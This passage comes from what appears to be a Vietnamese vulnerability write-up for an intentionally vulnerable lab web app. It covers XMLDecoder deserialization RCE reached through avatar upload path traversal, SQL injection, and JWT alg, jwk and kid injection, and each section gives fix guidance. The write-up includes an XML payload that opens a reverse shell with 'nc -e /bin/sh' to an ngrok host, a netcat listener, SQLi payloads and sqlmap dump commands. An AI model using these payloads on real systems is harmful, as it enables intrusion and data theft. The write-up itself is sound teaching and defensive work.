        logger.info("Imported promotion XML {} as promotion {}", xmlFile.getFileName(), savedPromotion.getCode());
    }
}
```

Direct source -> sink summary:



### 4.2. Chained source: FileUpload -> import directory -> XMLDecoder

FileUpload source:

```java
// src/main/java/org/example/controller/UserController.java
@PostMapping(value = "/{id}/avatar", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> uploadAvatar(@PathVariable Integer id,
                                      @RequestParam("file") MultipartFile file,
                                      @RequestParam(value = "filename", required = false) String filename,
                                      Authentication authentication) {
    if (!canAccessUser(authentication, id)) {
        return ResponseEntity.status(403).body("Forbidden");
    }
    User user = userService.uploadAvatar(id, file, filename);
    return ResponseEntity.ok().body(user);
}
```

Với filename:

```text
..//..//imports/promotions/poc.XML
```

Từ `uploads/avatars`, path này normalize về thư mục import của project/container:

| Môi trường | Base avatar dir | Target sau traversal |
|---|---|---|
| Local default | `<repo>/uploads/avatars` | `<repo>/imports/promotions/poc.XML` |
| Docker default | `/app/uploads/avatars` | `/app/imports/promotions/poc.XML` |

Sau khi file rơi vào import dir, source ban đầu không còn là admin import endpoint nữa; scheduler vẫn kích hoạt cùng sink `XMLDecoder.readObject()`.

---

## 5. Khai thác lỗ hổng

Có thể gọi `java.lang.Runtime` trong file XML được truyển vào scheduled job thông qua chain hiện tại để RCE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="3">
          <void index="0">
              <string>/bin/sh</string>
          </void>
          <void index="1">
              <string>-c</string>
          </void>
          <void index="2">
              <string>nc -e /bin/sh 0.tcp.ap.ngrok.io <port> </string>
          </void>
      </array>
      </void>
 </object>
</java>
```

Direct import PoC:

```http
POST /api/v1/promotion/import-xml HTTP/1.1
Authorization: Bearer <admin-jwt>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="poc.xml"
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  ...
</java>
------WebKitFormBoundary--
```

FileUpload chained PoC shape:

```http
POST /api/v1/user/{ownUserId}/avatar HTTP/1.1
Authorization: Bearer <user-jwt>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundaryqJRfwZA29YbZZTwf
Content-Disposition: form-data; name="file"; filename="..//..//imports/promotions/shell.XML"
Content-Type: image/jpeg

<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  ...
</java>

------WebKitFormBoundaryqJRfwZA29YbZZTwf--
```

Mở netcat listener để bắt shell:

```bash
{ printf 'echo "[KTVWebLab] shell connected: $(id) @ $(hostname)"\n'; cat; } | nc -lvn 9999
```

Dấu hiệu xác nhận:

| Dấu hiệu                                                                                                   | Ý nghĩa                                                      |
| ---------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------ |
| netcat bắt shell thành công và hiển thị output của lệnh `[KTVWebLab] shell connected: $(id) @ $(hostname)` | Shell đã chạy                                                |
| File XML được chuyển sang `imports/promotions/processed/`                                                  | `readObject()` không throw exception và importer move file   |
| Log `Imported promotion XML ... as ...`                                                                    | Decoder parse được object hoặc side effect object            |
| Log `Failed to import promotion XML ...` lặp lại                                                           | Payload parse lỗi, file có thể bị retry ở vòng scheduled sau |

---

## 6. Fix guidance đặt cạnh sink

### 6.1. Không dùng XMLDecoder cho untrusted input

```java
/*
 * FIXED CODE:
 * Do not parse uploaded XML with java.beans.XMLDecoder. XMLDecoder is a Java
 * object deserialization mechanism and can invoke constructors/methods while
 * readObject() is running.
 *
 * Replace it with a strict PromotionImportDto parser that only maps expected
 * scalar fields, rejects DOCTYPE/external entities, validates business fields,
 * and then builds a Promotion entity server-side.
 */
private void importPromotionXml(Path xmlFile) {
    PromotionImportDto dto = securePromotionXmlParser.parse(xmlFile);
    Promotion promotion = promotionImportMapper.toPromotion(dto);
    Promotion savedPromotion = importPromotion(promotion);
    logger.info("Imported promotion XML {} as promotion {}", xmlFile.getFileName(), savedPromotion.getCode());
    moveToProcessed(xmlFile);
}
```

### 6.2. Nếu vẫn dùng XML parser, tắt external entity và map DTO thủ công

```java
/*
 * FIXED CODE:
 * Example hardened parser setup for XML-to-DTO parsing. This does not make
 * XMLDecoder safe; it is for a replacement parser such as DOM/SAX/StAX.
 */
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
factory.setXIncludeAware(false);
factory.setExpandEntityReferences(false);
factory.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
factory.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");

Document document = factory.newDocumentBuilder().parse(xmlFile.toFile());
PromotionImportDto dto = PromotionImportDto.from(document);
```

### 6.3. Fix queue path để không tạo thêm write primitive

```java
/*
 * FIXED CODE:
 * Keep queued files inside promotionDir, generate server-side names, and do
 * not return absolute filesystem paths to clients.
 */
String extension = ".xml";
String queuedFilename = UUID.randomUUID() + extension;
Path promotionDir = Paths.get(importDir).toAbsolutePath().normalize();
Path destination = promotionDir.resolve(queuedFilename).normalize();
if (!destination.startsWith(promotionDir)) {
    throw new IllegalArgumentException("Invalid promotion import path");
}

file.transferTo(destination.toFile());
return Map.of("status", "QUEUED", "fileName", queuedFilename);
```

### 6.4. Fix chain từ FileUpload

Phần FileUpload đã có fix guidance riêng, nhưng với chain XMLDecoder cần nhấn mạnh thêm:

| Fix                                             | Tác dụng                                       |
| ----------------------------------------------- | ---------------------------------------------- |
| Generate server-side avatar filename            | User không còn điều khiển path ghi             |
| Whitelist extension/MIME ảnh thay vì blacklist  | `.XML`, `.phtml`, `.jsp.jpg` không còn đi qua  |
| `destination.normalize().startsWith(avatarDir)` | Chặn traversal ra khỏi `uploads/avatars`       |
| Import dir tách quyền ghi khỏi upload dir       | Upload write primitive không thể feed importer |

---

## 7. Tổng kết

XXE XMLDecoder flow nguy hiểm vì có hai source khác nhau cùng đổ về một sink:

1. Admin import XML ghi file vào `imports/promotions`;
2. FileUpload avatar có thể ghi traversal vào cùng import dir nếu bypass blacklist/path filter;
3. Scheduled job tự quét file XML;
4. `XMLDecoder.readObject()` deserialize object graph và có thể kích hoạt method invocation;
5. `instanceof Promotion` diễn ra sau khi object đã được decode, nên không phải boundary bảo vệ;
6. Owner-check của `/uploads/**` không ảnh hưởng đến chain này vì importer đọc filesystem trực tiếp.

Kết luận phát hiện:

```text
XMLDecoder + attacker-writable import directory = unsafe XML deserialization/RCE.

FileUpload traversal -> import directory = chained FileUpload -> XMLDecoder RCE.
```


# SQL Injection

---

## 1. Kết luận nhanh cho SQL Injection

| Hạng mục               | Flight search SQLi                                              | Transaction search SQLi                                                     |
| ---------------------- | --------------------------------------------------------------- | --------------------------------------------------------------------------- |
| Endpoint               | `GET /api/v1/flight/conditions`                                 | `GET /api/v1/transaction/conditions`                                        |
| Source                 | Query param `flightName`                                        | Query param `flightName`                                                    |
| Sink                   | `FlightSearchRepositoryImpl.appendKeywordSearch(...)`           | `TransactionSearchRepositoryImpl.appendFlightNameSearch(...)`               |
| Dangerous API          | `EntityManager.createNativeQuery(sql.toString(), Flight.class)` | `EntityManager.createNativeQuery(sql.toString(), Transaction.class)`        |
| Query bug              | String concat vào `LIKE '%...%'`                                | String concat vào `LIKE '%...%'`                                            |
| Access                 | Public GET theo `WebSecurityConfig`                             | `ROLE_USER` hoặc `ROLE_ADMIN`                                               |
| Loại khai thác ổn định | Error-based                                                     | Boolean/content-based blind                                                 |
| Error behavior         | `500` trả JSON có `e.getMessage()`                              | `500` chỉ trả `Server Error`                                                |
| Boolean signal         | `status=SUCCESS/NOT_FOUND` trong body                           | `200` có list hoặc `400 Not found`                                          |


> **Nhận định:** SQLi không nằm ở controller mà nằm ở custom repository build native SQL. `flightName`/`keyword` được nối trực tiếp vào chuỗi SQL trước khi gọi `createNativeQuery(...)`. Các param khác như `dateFrom`, `dateTo`, `departure`, `arrival`, `status` được bind an toàn, nhưng chỉ cần một field concat là đủ tạo SQLi.

---

## 2. Biểu đồ flow tổng quan

```mermaid
flowchart TD
    subgraph FlightFlow["Flight search: error-based"]
        A["Client / Search flight UI"]
        B["GET /api/v1/flight/conditions?flightName=..."]
        C["FlightController.getByConditions"]
        D["FlightServiceImpl.searchFlights"]
        E["FlightSearchRepositoryImpl.searchFlights"]
        F["appendKeywordSearch(sql, keyword)"]
        G["createNativeQuery(sql.toString(), Flight.class)"]
        H["Response leaks e.getMessage() on exception"]
    end

    subgraph TransactionFlow["Transaction search: boolean/content-based"]
        I["Admin/User transaction UI or API client"]
        J["GET /api/v1/transaction/conditions?flightName=..."]
        K["TransactionController.getByConditions"]
        L["TransactionServiceImpl.findByConditions"]
        M["TransactionSearchRepositoryImpl.searchTransactions"]
        N["appendFlightNameSearch(sql, flightName)"]
        O["createNativeQuery(sql.toString(), Transaction.class)"]
        P["200 list vs 400 Not found"]
    end

    A --> B --> C --> D --> E --> F --> G --> H
    I --> J --> K --> L --> M --> N --> O --> P
```

---

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

| Nhóm fuzz | Pattern cần tìm | Kết quả trong repo | Ý nghĩa |
|---|---|---|---|
| Native SQL | `createNativeQuery`, `nativeQuery = true` | `FlightSearchRepositoryImpl`, `TransactionSearchRepositoryImpl` | Candidate SQLi |
| String-built query | `StringBuilder sql`, `.append(userInput)` | `appendKeywordSearch`, `appendFlightNameSearch` | Source bị concat vào SQL |
| Parameter binding | `setParameter(...)` | Có cho `dateFrom/dateTo/status/departure/arrival` | Những param này ít rủi ro hơn |
| Error exposure | `catch (Exception e)`, `e.getMessage()` | `FlightController.getByConditions` | Tạo error-based signal |
| Content signal | `ObjectUtils.isEmpty(...)` trả khác response | `TransactionController.getByConditions` | Tạo boolean/content-based blind |

Kết quả fuzz xác định hai sink:

```java
// src/main/java/org/example/repository/FlightSearchRepositoryImpl.java
Query query = entityManager.createNativeQuery(sql.toString(), Flight.class); // [SINK]
```

```java
// src/main/java/org/example/repository/TransactionSearchRepositoryImpl.java
Query query = entityManager.createNativeQuery(sql.toString(), Transaction.class); // [SINK]
```

### 3.2. Sink Flight: từ `createNativeQuery` lần ngược ra concat

```java
// src/main/java/org/example/repository/FlightSearchRepositoryImpl.java
private void appendKeywordSearch(StringBuilder sql, String keyword) {
    if (keyword == null || keyword.isBlank()) {
        return;
    }

    sql.append("AND (LOWER(f.name) LIKE LOWER('%")
            .append(keyword) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.departure_code) LIKE LOWER('%")
            .append(keyword) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.arrival_code) LIKE LOWER('%")
            .append(keyword) // [UNTRUSTED INPUT CONCAT]
            .append("%')) ");
}
```

Final query shape:

```sql
SELECT f.*
FROM flight f
WHERE f.is_deleted = 0
AND (
    LOWER(f.name) LIKE LOWER('%<keyword>%')
    OR LOWER(f.departure_code) LIKE LOWER('%<keyword>%')
    OR LOWER(f.arrival_code) LIKE LOWER('%<keyword>%')
)
AND f.start_time BETWEEN :dateFrom AND :dateTo
AND LOWER(f.departure) LIKE LOWER(CONCAT('%', :departure, '%'))
AND LOWER(f.arrival) LIKE LOWER(CONCAT('%', :arrival, '%'))
ORDER BY f.start_time ASC
```

Từ sink lần ngược ra controller:

```java
// src/main/java/org/example/controller/FlightController.java
@GetMapping(value = "/conditions")
public ResponseEntity<?> getByConditions(
        @RequestParam String flightName, // [SOURCE]
        @RequestParam @DateTimeFormat(pattern = "yyyy-MM-dd") LocalDate dateFrom,
        @RequestParam @DateTimeFormat(pattern = "yyyy-MM-dd") LocalDate dateTo,
        @RequestParam String departure,
        @RequestParam String arrival,
        @RequestParam Integer pageNum,
        @RequestParam Integer pageSize) {
    try {
        List<Flight> flightList = flightService.searchFlights(
            flightName, dateTimeFrom, dateTimeTo, departure, arrival, pageable);
        ...
    } catch (Exception e) {
        Map<String, Object> response = new HashMap<>();
        response.put("status", "ERROR");
        response.put("message", "Lỗi server: " + e.getMessage()); // [ERROR LEAK]
        return ResponseEntity.internalServerError().body(response);
    }
}
```

Kết luận Flight sink -> source:

| Điểm           | Kết luận                                 |
| -------------- | ---------------------------------------- |
| Source         | `@RequestParam String flightName`        |
| Propagation    | Controller -> service -> repository      |
| Sink           | `append(keyword)` vào SQL literal        |
| Error signal   | Response body chứa SQL exception message |
| Classification | Error-based SQLi                         |

### 3.3. Sink Transaction: từ `createNativeQuery` lần ngược ra concat

```java
// src/main/java/org/example/repository/TransactionSearchRepositoryImpl.java
private void appendFlightNameSearch(StringBuilder sql, String flightName) {
    if (flightName == null || flightName.isBlank()) {
        return;
    }

    sql.append("AND (LOWER(f.name) LIKE LOWER('%")
            .append(flightName) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.departure_code) LIKE LOWER('%")
            .append(flightName) // [UNTRUSTED INPUT CONCAT]
            .append("%') OR LOWER(f.arrival_code) LIKE LOWER('%")
            .append(flightName) // [UNTRUSTED INPUT CONCAT]
            .append("%')) ");
}
```

Final query shape:

```sql
SELECT t.*
FROM `transaction` t
JOIN flight f ON f.id = t.flight_id
WHERE t.is_deleted = 0
AND (
    LOWER(f.name) LIKE LOWER('%<flightName>%')
    OR LOWER(f.departure_code) LIKE LOWER('%<flightName>%')
    OR LOWER(f.arrival_code) LIKE LOWER('%<flightName>%')
)
AND t.update_date BETWEEN :dateFrom AND :dateTo
AND t.status = :status
ORDER BY t.update_date DESC
```

Từ sink lần ngược ra controller:

```java
// src/main/java/org/example/controller/TransactionController.java
@GetMapping(value = "/conditions")
public ResponseEntity<?> getByConditions(@RequestParam String flightName, // [SOURCE]
        @RequestParam Date dateFrom,
        @RequestParam Date dateTo,
        @RequestParam TransactionStatusEnum status,
        @RequestParam Integer pageNum,
        @RequestParam Integer pageSize,
        Authentication authentication) {
    try {
        List<Transaction> transactionList = transactionService
                .findByConditions(flightName, dateFrom, dateTo, status, pageable);
        ...
        if (ObjectUtils.isEmpty(transactionList)) {
            return ResponseEntity.badRequest().body("Not found"); // [FALSE/EMPTY SIGNAL]
        } else {
            return ResponseEntity.ok().body(transactionList); // [TRUE/NON-EMPTY SIGNAL]
        }
    } catch (Exception e) {
        return ResponseEntity.internalServerError().body("Server Error"); // [GENERIC ERROR]
    }
}
```

Kết luận Transaction sink -> source:

| Điểm | Kết luận |
|---|---|
| Source | `@RequestParam String flightName` |
| Propagation | Controller -> service -> repository |
| Sink | `append(flightName)` vào native SQL |
| Error signal | Không leak message, chỉ `Server Error` |
| Boolean signal | `200` list khác `400 Not found` |
| Classification | Boolean/content-based blind SQLi |

---

## 4. Source -> Sink

### 4.1. Flight source -> sink

Frontend helper:

```javascript
// frontend/src/services/api.js
export const searchFlights = (searchTerm, dateFrom, dateTo, departure, arrival, page = 0, size = 10) =>
  api.get(`/flight/conditions?flightName=${encodeURIComponent(searchTerm)}&dateFrom=${dateFrom}&dateTo=${dateTo}&departure=${encodeURIComponent(departure)}&arrival=${encodeURIComponent(arrival)}&pageNum=${page}&pageSize=${size}`);
```

`encodeURIComponent(...)` chỉ encode URL để request hợp lệ; nó không biến concat SQL ở backend thành an toàn.

Flow:



### 4.2. Transaction source -> sink

Frontend helper:

```javascript
// frontend/src/services/api.js
export const getTransactionsByConditions = (flightName, dateFrom, dateTo, status, page = 0, size = 10) =>
  api.get(`/transaction/conditions?flightName=${encodeURIComponent(flightName)}&dateFrom=${dateFrom}&dateTo=${dateTo}&status=${status}&pageNum=${page}&pageSize=${size}`);
```

Security:

```java
// src/main/java/org/example/security/WebSecurityConfig.java
.requestMatchers(HttpMethod.GET,
        "/api/v1/transaction/conditions",
        "/api/v1/transaction/id",
        "/api/v1/transaction/flight",
        "/api/v1/transaction/flight/availability").hasAnyRole("USER", "ADMIN")
```

Flow:




---

## 5. Khai thác lỗ hổng

### 5.1. Error-based SQLi trên Flight

Mục tiêu là khai thác `flightName` để phá vỡ cú pháp SQL và controller leak exception message:

```text
flightName=QA%') AND IF(
  ASCII(SUBSTRING((
    SELECT table_name
    FROM information_schema.tables
    WHERE table_schema = DATABASE()
    ORDER BY table_name
    LIMIT 0,1
  ),1,1)) > 77,
  (SELECT table_name FROM information_schema.tables),1) OR LOWER('
```

Expected signal:

```json
{
  "status": "ERROR",
  "message": "Lỗi server: ..."
}
```

Có thể sử dụng `sqlmap` để khai thác:
```bash
python3 sqlmap.py -u "http://localhost:3000/api/v1/flight/conditions?flightName=&dateFrom=2026-07-01&dateTo=2026-07-31&departure=H%C3%A0%20N%E1%BB%99i&arrival=Seoul&pageNum=0&pageSize=10" -p "flightName" --threads=10 --risk=3 --level=5 --dbms="MySQL" --technique="E" --auth-cred="<token>" --auth-type="Bearer" —-dump
```

### 5.2. Boolean/content-based SQLi trên Transaction

Payload khai thác qua `flightName`:

```text
flightName=QA%') AND ASCII(SUBSTRING((
SELECT table_name
FROM information_schema.tables
WHERE table_schema = DATABASE()
ORDER BY table_name
LIMIT 0,1),1,1)) < 77 OR LOWER('
```

Cách đọc signal:

| Endpoint                         | TRUE signal                         | FALSE signal                         |
| -------------------------------- | ----------------------------------- | ------------------------------------ |
| `/api/v1/transaction/conditions` | `200 OK` có list transaction        | `400 Bad Request` body `Not found`   |

Khai thác qua `sqlmap`:
```bash
python3 sqlmap.py -u "http://localhost:3000/api/v1/transaction/conditions?flightName=&dateFrom=2025-12-17&dateTo=2026-12-17&status=BOOKED&pageNum=0&pageSize=100" -p "flightName" --threads=10 --risk=3 --level=5 --dbms="MySQL" --technique="B" --auth-cred="<token>" --auth-type="Bearer" —-dump
```

---

## 6. Fix guidance đặt cạnh sink

### 6.1. Fix FlightSearchRepositoryImpl

```java
/*
 * FIXED CODE:
 * Replace the concatenated keyword with a named parameter and bind it after
 * createNativeQuery(...). Do not append request input into SQL text.
 */
sql.append("""
        AND (
            LOWER(f.name) LIKE LOWER(CONCAT('%', :keyword, '%'))
            OR LOWER(f.departure_code) LIKE LOWER(CONCAT('%', :keyword, '%'))
            OR LOWER(f.arrival_code) LIKE LOWER(CONCAT('%', :keyword, '%'))
        )
        """);

Query query = entityManager.createNativeQuery(sql.toString(), Flight.class);
query.setParameter("keyword", keyword);
```

### 6.2. Fix TransactionSearchRepositoryImpl

```java
/*
 * FIXED CODE:
 * Replace the concatenated flightName with a named parameter and bind it after
 * createNativeQuery(...). Keep all user-controlled filters as bound params.
 */
sql.append("""
        AND (
            LOWER(f.name) LIKE LOWER(CONCAT('%', :flightName, '%'))
            OR LOWER(f.departure_code) LIKE LOWER(CONCAT('%', :flightName, '%'))
            OR LOWER(f.arrival_code) LIKE LOWER(CONCAT('%', :flightName, '%'))
        )
        """);

Query query = entityManager.createNativeQuery(sql.toString(), Transaction.class);
query.setParameter("flightName", flightName);
```

### 6.3. Fix error message leak

```java
/*
 * FIXED CODE:
 * Do not return e.getMessage() to clients. Keep detailed SQL/DB errors in logs
 * with a request id, and return a generic message to the API caller.
 */
catch (Exception e) {
    String requestId = UUID.randomUUID().toString();
    logger.warn("Flight search failed, requestId={}", requestId, e);
    Map<String, Object> response = new HashMap<>();
    response.put("status", "ERROR");
    response.put("message", "Server Error");
    response.put("requestId", requestId);
    return ResponseEntity.internalServerError().body(response);
}
```

---

## 7. Tổng kết

SQLi trong WebLab hiện có hai flow chính:

1. `FlightSearchRepositoryImpl` nối `keyword` vào native SQL, endpoint public, controller trả lỗi chi tiết nên có **error-based SQLi**.
2. `TransactionSearchRepositoryImpl` nối `flightName` vào native SQL, endpoint cần JWT, response khác nhau giữa có/không có kết quả nên có **boolean/content-based blind SQLi**.
3. Các param khác được bind không cứu được query, vì một đoạn user-controlled string đã nằm trực tiếp trong SQL text.
4. `encodeURIComponent` ở frontend không phải defense; backend vẫn nhận lại giá trị nguy hiểm sau URL decode.
5. Fix đúng là parameterize toàn bộ search keyword/flightName, và không trả DB exception message ra client.

Kết luận phát hiện:

```text
Nếu request param đi vào StringBuilder SQL qua .append(...)
rồi query được chạy bằng createNativeQuery(sql.toString(), Entity.class),
đánh dấu SQL Injection.

Nếu controller trả e.getMessage(), đánh dấu thêm error-based signal.
Nếu response khác nhau theo TRUE/FALSE predicate, đánh dấu boolean/content-based blind SQLi.
```


# JWT Attack

---

## 1. Kết luận nhanh cho JWT

| Hạng mục | Giá trị |
|---|---|
| Module | JWT auth/filter |
| Token issuer | `AuthController.authenticateUser(...)` gọi `JwtUtils.generateJwtToken(...)` |
| Token consumer | `AuthTokenFilter` đọc `Authorization: Bearer <jwt>` |
| Sink chính | `JwtUtils.parseClaims(...)` + `SigningKeyResolverAdapter.resolveSigningKey(...)` |
| Attack 1 | Algorithm Confusion: header `alg=HS*` làm validator dùng HMAC key derived từ RSA public key PEM |
| Attack 2 | Header param `jwk` Injection: token tự nhúng public key và backend tin key đó |
| Attack 3 | Header param `kid` Injection: unknown `kid` đi vào shell command key lookup |
| Impact auth | Forge token cho `sub=email` của user/admin tồn tại, sau đó `UserDetailsServiceImpl` load quyền thật từ DB |
| Impact command | `kid` command side effect có thể xảy ra trong lúc token validation, trước khi auth thành công |
| File quan trọng | `JwtUtils`, `AuthTokenFilter`, `AuthController`, `JwtUtilsTest` |

> **Nhận định:** app phát hành RS256 token hợp lệ, nhưng verification lại cho header JWT quyết định key/algorithm. Đây là lỗi trust boundary: `alg`, `jwk`, `kid` đều nằm trong phần header do client gửi, không được coi là nguồn tin cậy.

---

## 2. Sink -> Source

### 2.1. Fuzz dangerous function để tìm sink candidate

| Nhóm fuzz | Pattern cần tìm | Kết quả trong repo | Ý nghĩa |
|---|---|---|---|
| JWT parser | `parseClaimsJws`, `JwtParserBuilder` | `JwtUtils.parseClaims(...)` | Sink xác thực token |
| Dynamic key resolver | `SigningKeyResolverAdapter`, `resolveSigningKey` | `JwtUtils.parseClaims(...)` | Header quyết định key |
| Header params | `header.getAlgorithm`, `header.get("jwk")`, `header.getKeyId()` | `resolveVerificationKey(...)` | Source attacker-controlled |
| Algorithm confusion | `alg.startsWith("HS")`, `legacyVerificationKey` | `isLegacyHmacAlgorithm(...)` | HS token có verification path riêng |
| Embedded key | `parseRsaPublicJwk(...)` | Header `jwk` được tin | JWK injection |
| Command execution | `ProcessBuilder("/bin/sh", "-c", command)` | `resolveKeyFromKidCommand(...)` | `kid` command injection |

Candidate sink đầu tiên:

```java
// src/main/java/org/example/security/JwtUtils.java
private Jws<Claims> parseClaims(String token) {
    return Jwts.parserBuilder()
            .setSigningKeyResolver(new SigningKeyResolverAdapter() {
                @Override
                public Key resolveSigningKey(JwsHeader header, Claims claims) {
                    return resolveVerificationKey(header); // [SINK ROUTER]
                }
            })
            .requireIssuer(issuer)
            .build()
            .parseClaimsJws(token); // [JWT VERIFY SINK]
}
```

### 2.2. Algorithm Confusion sink -> source

```java
// src/main/java/org/example/security/JwtUtils.java
private Key resolveVerificationKey(JwsHeader header) {
    String algorithm = header.getAlgorithm(); // [SOURCE: attacker-controlled JWT header]
    if (isLegacyHmacAlgorithm(algorithm)) {
        return legacyVerificationKey;         // [CONFUSION SINK]
    }
    ...
}

private boolean isLegacyHmacAlgorithm(String alg) {
    return alg != null && alg.startsWith("HS");
}
```

`legacyVerificationKey` được tạo từ RSA public key PEM:

```java
// src/main/java/org/example/security/JwtUtils.java
this.legacyVerificationKey = Keys.hmacShaKeyFor(
        toPublicKeyPem(publicKey).getBytes(StandardCharsets.US_ASCII));
```

Vấn đề:

| Thành phần                        | Ý nghĩa                                                                   |
| --------------------------------- | ------------------------------------------------------------------------- |
| `alg`                             | Header do attacker gửi, không đáng tin                                    |
| `alg.startsWith("HS")`            | Cho phép chuyển verification family từ RSA asymmetric sang HMAC symmetric |
| `toPublicKeyPem(publicKey)`       | Public key lẽ ra không phải secret                                        |
| HMAC secret derived từ public key | Nếu attacker biết đúng bytes PEM, có thể ký HS256 token                   |

Kết luận sink -> source:

```text
Header alg -> resolveVerificationKey -> legacyVerificationKey từ public key PEM
= Algorithm Confusion.
```

### 2.3. `jwk` header injection sink -> source

```java
// src/main/java/org/example/security/JwtUtils.java
Object embeddedKey = header.get("jwk"); // [SOURCE: attacker-controlled JWT header]
if (embeddedKey instanceof Map<?, ?> jwk) {
    return parseRsaPublicJwk(jwk);       // [TRUSTS ATTACKER KEY]
}
```

JWK parser:

```java
// src/main/java/org/example/security/JwtUtils.java
private PublicKey parseRsaPublicJwk(Map<?, ?> jwk) {
    if (!"RSA".equals(jwk.get("kty"))) {
        throw new IllegalArgumentException("Only RSA JWKs are supported");
    }

    String modulus = (String) jwk.get("n");
    String exponent = (String) jwk.get("e");
    RSAPublicKeySpec keySpec = new RSAPublicKeySpec(
            new BigInteger(1, Base64.getUrlDecoder().decode(modulus)),
            new BigInteger(1, Base64.getUrlDecoder().decode(exponent)));

    return KeyFactory.getInstance("RSA").generatePublic(keySpec);
}
```

Vấn đề:

| Thành phần                             | Ý nghĩa                                                         |
| -------------------------------------- | --------------------------------------------------------------- |
| Header `jwk`                           | Client tự nhúng public key                                      |
| Token signed bằng attacker private key | Signature verify thành công vì backend dùng attacker public key |
| `sub=email`                            | Nếu email tồn tại, `AuthTokenFilter` load user từ DB            |

Kết luận sink -> source:

```text
JWT header jwk -> parseRsaPublicJwk -> verification key
= attacker-supplied trust anchor.
```

### 2.4. `kid` injection sink -> source

```java
// src/main/java/org/example/security/JwtUtils.java
String kid = header.getKeyId(); // [SOURCE: attacker-controlled JWT header]
if (StringUtils.hasText(kid) && !verificationKeys.containsKey(kid)) {
    Key commandLoadedKey = resolveKeyFromKidCommand(kid);
    if (commandLoadedKey != null) {
        return commandLoadedKey;
    }
}

return verificationKeys.getOrDefault(kid, publicKey); // [PERMISSIVE FALLBACK]
```

Command sink:

```java
// src/main/java/org/example/security/JwtUtils.java
private Key resolveKeyFromKidCommand(String kid) {
    String command = kidKeyCommandTemplate.replace("{kid}", kid);

    Process process = new ProcessBuilder("/bin/sh", "-c", command)
            .redirectErrorStream(true)
            .start(); // [COMMAND INJECTION SINK]
    ...
}
```

Default command template:

```properties
app.jwt.kid-key-command-template=${JWT_KID_KEY_COMMAND_TEMPLATE:cat ./jwt-{kid}.pem}
```

Vấn đề:

| Thành phần | Ý nghĩa |
|---|---|
| `kid` | Header do attacker gửi |
| `replace("{kid}", kid)` | Không validate/escape |
| `/bin/sh -c` | Shell metacharacter như `;`, `#`, `&&` có nghĩa đặc biệt |
| Unknown `kid` | Kích hoạt command lookup |
| Fallback `getOrDefault(kid, publicKey)` | Có thể vẫn validate token bằng default key sau command side effect |

Kết luận sink -> source:

```text
JWT header kid -> command template -> /bin/sh -c
= command injection in JWT key lookup.
```

---

## 3. Source -> Sink

### 3.1. Normal issued token source -> verification sink

```java
// src/main/java/org/example/controller/AuthController.java
JwtResponse jwtResponse = new JwtResponse(jwtUtils.generateJwtToken(user.getEmail()),
        user.getId(),
